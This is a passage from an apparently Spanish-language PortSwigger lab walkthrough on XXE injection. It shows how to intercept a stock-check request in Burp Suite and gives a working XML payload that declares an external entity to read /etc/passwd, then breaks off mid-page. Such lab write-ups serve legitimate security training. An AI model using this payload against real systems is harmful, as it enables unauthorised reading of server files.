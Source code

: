 Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en Check stock y buscamos el paquete en el Http history y lo enviamos al `Repeater`.


<p align="center">
     <img src="/assets/images/portswigger/exploiting_xxe_using_external_entities_to_retrieve_files/4.png" width="1000">
</p><br>

Entonces ahora debemos generar un payload para el ataque, el cual será el siguiente basandonos en la estructura del XML del paquete:

```plaintext
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```
Y Lo probamos en el paquete para verificar si existe una respuesta válida.


<p align="center">
